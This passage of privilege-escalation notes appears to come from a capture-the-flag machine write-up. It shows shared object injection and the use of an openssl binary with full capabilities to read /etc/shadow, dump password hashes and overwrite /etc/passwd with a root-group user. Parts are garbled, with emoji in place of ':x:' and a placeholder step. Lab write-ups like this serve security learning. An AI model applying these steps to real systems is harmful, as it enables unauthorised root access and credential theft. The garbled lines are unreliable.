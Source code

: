 ```
/usr/bin/app
```

## Shared Object Injection 

If any shared object not found while executing a program, and we have write permission in that directory, we can create our own shared object and re-execute for escalation
```
strace /usr/local/bin/program 2&gt;&1 | grep -iE "open|access|no such file"
msf command to generate the shared object backdoor
/usr/local/bin/program #execute again
Quick Example/Demo 
```

## Exploiting openssl Capability 

Note: =ep mean, it has all capabilities! I copied the /etc/passwd file and added a new user(byte:$1$byte$hMDtu8nzkmElSsWOB8IyZ0:0:0:byte:/root:/bin/bash) of root group, then replaced the original one with openssl.
```
ldapuser1@lightweight ~]$ getcap -r / 2> /dev/null
/usr/bin/ping = cap_net_admin,cap_net_raw+p
/usr/sbin/mtr = cap_net_raw+ep
/usr/sbin/suexec = cap_setgid,cap_setuid+ep
/usr/sbin/arping = cap_net_raw+p
/usr/sbin/clockdiff = cap_net_raw+p
/usr/sbin/tcpdump = cap_net_admin,cap_net_raw+ep
/home/ldapuser1/tcpdump = cap_net_admin,cap_net_raw+ep
/home/ldapuser1/openssl =ep
```
```
&#91;ldapuser1@lightweight ~]$ ./openssl base64 -in /etc/shadow|base64 -d
root:$6$eVOz8tJs$xpjymy5BFFeCIHq9a.BoKZeyPReKd7pwoXnxFNOa7TP5ltNmSDsiyuS/ZqTgAGNEbx5jyZpCnbf8xIJ0Po6N8.:17711:0:99999:7:::
bin:*:17632:0:99999:7:::
ldapuser1:$6$OZfv1n9v$2gh4EFIrLW5hZEEzrVn4i8bYfXMyiPp2450odPwiL5yGOHYksVd8dCTqeDt3ffgmwmRYw49cMFueNZNOoI6A1.:17691:365:99999:7:::
ldapuser2:$6$xJxPjT0M$1m8kM00CJYCAgzT4qz8TQwyGFQvk3boaymuAmMZCOfm3OA7OKunLZZlqytUp2dun509OBE2xwX/QEfjdRQzgn1:17691:365:99999:7:::
10.10.14.2:clJFBL7EDs1H6:17851:0:99999:7:::
10.10.14.21:cb1pO5BP8Qd1o:18525:0:99999:7:::

ldapuser1@lightweight ~]$ cp /etc/passwd .

ldapuser1@lightweight ~]$ nano /etc/passwd
root❌0:0:root:/root:/bin/bash
bin❌1:1:bin:/bin:/sbin/nologin
daemon❌2:2:daemon:/sbin:/sbin/nologin
adm❌3:4:adm:/var/adm:/sbin/nologin
lp❌4:7:lp:/var/spool/lpd:/sbin/nologin
sync❌5:0:sync:/sbin:/bin/sync
shutdown❌6:0:shutdown:/sbin:/sbin/shutdown
halt❌7:0:halt:/sbin:/sbin/halt
mail❌8:12:mail:/var/spool/mail:/sbin/nologin
operator❌11:0:operator:/root:/sbin/nologin
games❌12💯games:/usr/games:/sbin/nologin
ftp❌14:50:FTP User:/var/ftp:/sbin/nologin
nobody❌99:99:Nobody:/:/sbin/nologin
systemd-network❌192:192:systemd Network Management:/:/sbin/nologin
dbus❌81:81:System message bus:/:/sbin/nologin
polkitd❌999:998:User for polkitd:/:/sbin/nologin
apache❌48:48:Apache:/usr/share/httpd:/sbin/nologin
libstoragemgmt❌998:997:daemon account for libstoragemgmt:/var/run/lsm:/sbin/nologin
abrt❌173:173::/etc/abrt:/sbin/nologin
```